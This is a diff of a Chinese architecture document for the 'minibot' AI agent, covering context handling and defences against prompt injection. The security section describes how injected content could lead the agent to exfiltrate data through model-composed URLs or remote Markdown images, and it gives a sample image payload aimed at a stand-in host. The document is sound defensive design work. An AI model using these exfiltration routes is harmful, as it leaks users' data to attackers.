

Before and after one commit to Jiminyang1/minibot, a Markdown page: docs/architecture.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/docs/architecture.md
+++ b/docs/architecture.md
@@ -138,6 +138,7 @@ sequenceDiagram
 要点:
 
 - **上下文每轮重投影**(② 在循环内),不是 turn 开始拼一次。工具结果落盘后,下一轮的请求自然包含它们。
+- **每条用户消息末尾附它自己的发送时间**(`[发送时间 …]`,取自 `created_at`,只存在于请求里)。同一条消息在每次请求里都一样,时钟走动或开始新一轮都不会改动前面的内容,provider 的 prompt cache 对整段对话都有效;system prompt 里只有日期。
 - `session.messages` 是投影缓存,`Session.add_message` 后自动重建;循环从不手工拼消息数组。
 - `TurnOutcome` 是给调用方的便利返回值,不是第二条真相通道——它携带的每个字段都已经以事件形式发布过。
 
@@ -206,7 +207,7 @@ flowchart TD
 - 切点永不落在 tool 结果上、永不切开未完成的工具事务(`runtime/compaction.py` 纯函数保证)。
 - 增量摘要:新摘要在 `previous_summary` 基础上合并,read/modified 文件清单跨 compaction 累积(`<read-files>` / `<modified-files>` 区块)。
 - 变异与落盘同调用完成(`Compactor._apply_compaction`),不存在待对账的中间态。
-- 摘要在投影里是一条 **user** 消息(内容包在 `<conversation-summary>` 标签里,id 以 `_summary` 结尾),不是 assistant 消息:摘要会引用工具输出,模型不能把它当成自己说过的话。它不算轮次、不能当切点,时间戳也不打在它上面。后面紧跟的真实用户消息会形成两条连续的 user 消息,`deepseek-v4-pro` 实测接受。
+- 摘要在投影里是一条 **user** 消息(内容包在 `<conversation-summary>` 标签里,id 以 `_summary` 结尾),不是 assistant 消息:摘要会引用工具输出,模型不能把它当成自己说过的话。它不算轮次、不能当切点,也不加发送时间。后面紧跟的真实用户消息会形成两条连续的 user 消息,`deepseek-v4-pro` 实测接受。
 
 手动 `/compact` 走 `Compactor.compact_now`,只做一次安全切点压缩,无事可做时返回说明而不报错。
 
@@ -292,10 +293,11 @@ flowchart TD
 
 MiniBot 在用户自己的权限下运行,没有沙箱。下面几条边界防的是提示注入和本机服务被滥用:
 
-- **审批规则是按调用算的。** `Tool.approval_reason(args, exposure)` 返回审批原因,`None` 表示直接放行;默认实现跟随静态的 `requires_approval`。`exposure` 由 `untrusted_exposure(session, registry)` 从整个会话(包括被压缩的记录)折叠出来:`tainted` 表示 `untrusted_output` 的工具(`fetch_url`、`web_search`、所有 MCP 工具)已经返回过内容,一旦变脏整个会话都保持脏;`seen_text` 是用户消息、工具结果和压缩摘要的原文。
+- **审批规则是按调用算的。** `Tool.approval_reason(args, exposure)` 返回审批原因,`None` 表示直接放行;默认实现跟随静态的 `requires_approval`。`exposure` 由 `untrusted_exposure(session, registry)` 从整个会话(包括被压缩的记录)折叠出来:`tainted` 表示 `untrusted_output` 的工具(`fetch_url`、`web_search`、`read_artifact`、`search_history`、所有 MCP 工具)已经返回过内容,一旦变脏整个会话都保持脏。`seen_text` 只收模型没写过的文字:用户消息,以及不可信工具**成功**的结果,并且把这次调用自己传进去的参数从结果里剪掉。模型自己写的文字(压缩摘要、回显参数的报错和拒绝结果、被原样带回的搜索词)都不算,否则模型拼出来的 URL 可以借它们"洗白"。这和 Anthropic `web_fetch` 工具的 `url_sources` 规则一致。拒绝结果里也不再带调用参数。
   - `remember`:会话变脏以后要审批。记忆会进入以后每个会话的 prompt。
-  - `fetch_url`:会话变脏以后,URL 没有在 `seen_text` 里出现过(也就是模型自己拼出来的)就要审批,因为 URL 本身就能把数据带出去。用户或工具结果里出现过的链接照常放行。剩余风险:从已出现的多个链接里挑一个,仍然能泄露少量信息。
+  - `fetch_url`:会话变脏以后,URL 没有在 `seen_text` 里出现过(也就是模型自己拼出来的)就要审批,因为 URL 本身就能把数据带出去。用户或工具结果里出现过的链接照常放行。剩余风险:从已出现的链接里挑一个仍能泄露信息,而且每抓一页都会带来一批新链接,所以泄露量没有固定上限;`search_history` 的结果里有过去的助手回复,也就是模型写过的文字。
   - 没有审批渠道的运行(daemon、heartbeat)在这些情况下一律拒绝;`always` 模式全部放行。
-- **`fetch_url` 只访问公网。** 请求前检查主机名、DNS 解析出的每个地址和每一跳重定向,要求都是 `is_global`(所以 `100.64.0.0/10` 也会被拦)。检查时间和连接时间之间的 DNS rebinding 空档没有处理(没有固定 IP)。Jina 阅读器默认关闭,`MINIBOT_FETCH_VIA_JINA=1` 才会把 URL 发给 `r.jina.ai`。
+- **`fetch_url` 只访问公网。** 请求前检查主机名、DNS 解析出的每个地址和每一跳重定向,要求都是 `is_global`(所以 `100.64.0.0/10` 也会被拦)。直连时不走系统代理(`ProxyHandler({})`):代理会自己解析域名,检查过的地址就不再是实际连接的地址。URL 里带账号或密码的一律拒绝。检查时间和连接时间之间的 DNS rebinding 空档没有处理(没有固定 IP)。Jina 阅读器默认关闭,`MINIBOT_FETCH_VIA_JINA=1` 才会把 URL 发给 `r.jina.ai`。
 - **服务端只认回环地址。** `LocalOnlyMiddleware` 只接受 `localhost`、`127.0.0.1`、`[::1]` 的 `Host`(挡 DNS rebinding),写请求带外部 `Origin` 时返回 403。服务端没有认证;`--host` 设成非回环地址会打印警告,远程访问的主机名用 `--allowed-host` 加。
 - **`exec`**:要审批(`ask` 模式),另有一份危险命令黑名单作为纵深防御,黑名单本身可以绕过。
+- **Web 界面不加载远程图片。** 回复里的远程图片(Markdown 或原始 HTML)渲染成链接,`index.html` 的 CSP `img-src 'self' data:` 兜底(也管 CSS 背景图)。否则 `![](https://x/?d=…)` 这样的回复不用点击就能把数据带出去。
```
Also changed, not shown: README.md (+1 -1 lines), README.zh-CN.md (+1 -1 lines).
